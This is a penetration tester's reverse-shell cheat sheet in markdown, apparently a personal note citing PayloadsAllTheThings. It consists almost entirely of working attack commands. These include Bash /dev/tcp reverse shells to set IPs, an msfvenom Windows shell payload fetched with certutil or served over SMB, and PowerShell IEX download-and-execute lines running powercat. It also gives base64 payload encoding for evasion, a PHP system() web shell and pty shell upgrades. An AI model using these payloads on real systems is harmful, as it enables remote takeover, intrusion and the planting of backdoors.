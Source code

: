 ```yaml
---
sticker: emoji//1f41a
---
```

### Reverse Shells
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python
##### Bash
```
bash -c "bash -i >& /dev/tcp/192.168.45.161/1443 0>&1"

bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

/bin/bash -l > /dev/tcp/192.168.45.161/1443 0<&1 2>&1
```

##### Windows
####  CMD
```
#Generate reverse shell.
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o myshell.exe

#Transfer reverse shell to your users home directory.
certutil -urlcache -split -f http://192.168.45.178:80/myshell.exe C:\\users\\<user>\\myshell.exe"

#Execute
C:\\users\\<user>\\myshell.exe
```

### SMB Share
```
#Generate reverse shell.
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o myshell.exe

#Setup smb server.
impacket-smbserver -smb2support kali $PWD

#Transfer and execute shell.
//<kali-ip>/kali/myshell.exe
```

#### Powershell

```
#Using powercat.
Method 1. IEX (New-Object System.Net.Webclient).DownloadString("http://<ip>/powercat.ps1");powercat -c <host_ip> -p <port> -e powershell
Method 2. powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<ip>/powercat.ps1'); powercat -c <ip> -p <port> -e powershell"
```
###### Base64 Encode

```
#PowerShell Script
$Text = "YOUR_PAYLOAD_HERE"

$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)

$EncodedText =[Convert]::ToBase64String($Bytes)

$EncodedText

#PowerShell Command
powershell -enc "<base64>"
powershell -a "-enc <base64>"
```

### Web Shells
##### ASP / ASPX

```
https://github.com/tennc/webshell/tree/master/fuzzdb-webshell/asp
```
### PHP

```
<?php system($_GET['cmd']); ?>
```

#### Upgrades
```
#interactive upgrade
python3 -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'

#interactive upgrade
python3 -c 'import pty; pty.spawn(["env","TERM=xterm-256color","/bin/bash","--rcfile", "/etc/bash.bashrc","-i"])'

#enables clear
export TERM=xterm
```